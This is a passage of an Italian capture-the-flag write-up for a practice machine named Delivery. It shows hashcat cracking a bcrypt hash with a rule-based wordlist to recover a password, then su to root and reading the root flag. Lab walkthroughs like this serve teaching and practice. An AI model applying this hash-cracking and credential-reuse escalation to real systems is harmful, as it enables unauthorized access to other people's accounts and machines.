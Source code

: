 ```bash
Dictionary cache built:
* Filename..: password
* Passwords.: 1
* Bytes.....: 17
* Keyspace..: 77
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Tue Aug 15 07:21:13 2023 (3 secs)
Time.Estimated...: Tue Aug 15 07:21:16 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (password)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        8 H/s (1.22ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 21/77 (27.27%)
Rejected.........: 0/21 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:20-21 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21
Hardware.Mon.#1..: Util: 28%

Started: Tue Aug 15 07:20:02 2023
Stopped: Tue Aug 15 07:21:17 2023

```

Trovata!
PleaseSubscribe!21

Con su passiamo al utente root una volta inserita la password

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su
Password:
root@Delivery:/opt/mattermost/config# id
uid=0(root) gid=0(root) groups=0(root)
root@Delivery:/opt/mattermost/config#
```

Ci prendiamo la nostra flag root

```bash
root@Delivery:~# cat root.txt
188df3c518fc35e90a4b6533d5c8ecce
root@Delivery:~#
```

